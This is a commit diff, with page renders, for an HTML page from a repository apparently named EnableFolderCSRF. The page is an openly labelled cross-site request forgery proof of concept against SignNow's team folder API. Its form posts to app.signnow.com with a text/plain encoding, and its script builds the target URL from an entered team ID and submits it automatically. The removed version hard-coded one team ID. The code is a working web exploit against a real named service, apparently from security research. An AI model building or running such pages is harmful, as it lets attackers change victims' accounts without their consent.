

Before and after one commit to cybersagor/EnableFolderCSRF, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (168-1112 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,68 +3,109 @@
 <head>
   <meta charset="UTF-8">
   <meta name="viewport" content="width=device-width, initial-scale=1.0">
-  <title>CSRF</title>
+  <title>ADD FOLDERS in Documents via CSRF Attack</title>
   <style>
     body {
-      font-family: Arial, sans-serif;
-      padding: 20px;
+      font-family: 'Arial', sans-serif;
+      background-color: #f7f9fc;
+      color: #333;
+      margin: 0;
+      padding: 0;
+      display: flex;
+      justify-content: center;
+      align-items: center;
+      height: 100vh;
+      flex-direction: column;
     }
-    h2 {
-      color: #333;
+    h1 {
+      color: #2c3e50;
+      font-size: 2.5rem;
+      margin-bottom: 20px;
+      text-align: center;
+    }
+    .container {
+      background-color: #fff;
+      padding: 30px;
+      border-radius: 10px;
+      box-shadow: 0 4px 8px rgba(0, 0, 0, 0.1);
+      max-width: 400px;
+      width: 100%;
+      text-align: center;
     }
     label {
-      font-size: 16px;
+      font-size: 1.1rem;
+      color: #555;
       margin-bottom: 10px;
+      display: block;
     }
     input[type="text"] {
-      padding: 8px;
+      padding: 10px;
+      font-size: 1rem;
       width: 100%;
-      max-width: 300px;
-      margin-bottom: 15px;
-      font-size: 14px;
+      border: 2px solid #ddd;
+      border-radius: 5px;
+      margin-bottom: 20px;
+      transition: border 0.3s ease;
+    }
+    input[type="text"]:focus {
+      border-color: #3498db;
     }
     input[type="submit"] {
-      padding: 10px 15px;
-      background-color: #4CAF50;
+      background-color: #3498db;
       color: white;
+      padding: 12px 20px;
+      font-size: 1.1rem;
       border: none;
+      border-radius: 5px;
       cursor: pointer;
+      width: 100%;
+      transition: background-color 0.3s ease;
     }
     input[type="submit"]:hover {
-      background-color: #45a049;
+      background-color: #2980b9;
     }
-    .container {
-      max-width: 400px;
-      margin: 0 auto;
-      padding: 20px;
-      background-color: #f4f4f4;
-      border-radius: 8px;
-      box-shadow: 0 2px 10px rgba(0, 0, 0, 0.1);
+    .footer {
+      margin-top: 30px;
+      font-size: 0.9rem;
+      color: #7f8c8d;
+    }
+    .footer a {
+      color: #3498db;
+      text-decoration: none;
+    }
+    .footer a:hover {
+      text-decoration: underline;
     }
   </style>
 </head>
 <body>
+
+  <h1>ADD FOLDERS in Documents via CSRF Attack</h1>
+
   <div class="container">
-    <h2>ADD FOLDERS in Documents via CSRF Attack</h2>
-    <!-- Form that sends POST request -->
-    <form id="teamIDForm" action="https://app.signnow.com/api/team/f10474f3c4074deca43f99cef7fd1cd02f64107c/shared/document/folder" method="POST">
-      <label for="teamID">Enter Team ID:</label><br>
-      <input type="text" id="teamID" name="teamID" required><br><br>
-      <input type="submit" value="Submit">
+    <form id="teamForm" action="https://app.signnow.com/api/team/[team_id]/shared/document/folder" method="POST" enctype="text/plain">
+      <label for="teamID">Enter Team ID:</label>
+      <input type="text" id="teamID" name="teamID" required placeholder="/webapp/my-account/my-teams/[team_id]" />
+      <input type="submit" value="Submit Request" />
     </form>
   </div>
+  <script>
+    document.getElementById("teamForm").onsubmit = function(event) {
+      event.preventDefault(); // Prevent the form from submitting normally
 
-  <script>
-    // Optional: You can add JavaScript validation or processing before submitting the form
+      var teamID = document.getElementById("teamID").value;
+      if (teamID) {
+        // Update the form action with the user input
+        var actionUrl = "https://app.signnow.com/api/team/" + encodeURIComponent(teamID) + "/shared/document/folder";
+        document.getElementById("teamForm").action = actionUrl;
 
-    // Example: Automatically submit the form after the user enters a teamID
-    document.getElementById('teamIDForm').addEventListener('submit', function(event) {
-      var teamID = document.getElementById('teamID').value;
-      if (!teamID) {
-        alert('Please enter a Team ID');
-        event.preventDefault(); // Prevent the form from submitting if teamID is empty
+        // Submit the form programmatically
+        document.getElementById("teamForm").submit();
+      } else {
+        alert("Please enter a valid Team ID.");
       }
-    });
+    };
   </script>
+
 </body>
 </html>
```
